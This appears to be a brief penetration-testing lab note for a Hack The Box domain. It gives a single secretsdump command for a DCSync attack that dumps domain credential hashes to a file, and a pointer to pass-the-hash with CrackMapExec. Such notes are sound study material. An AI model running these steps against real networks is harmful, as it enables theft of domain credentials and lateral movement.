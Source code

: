 
DCSync attack
```
./secretsdump.py htb.local/user:password@ipadd > outputfile
```

run a passthehash attack with [[Crackmapexec]]
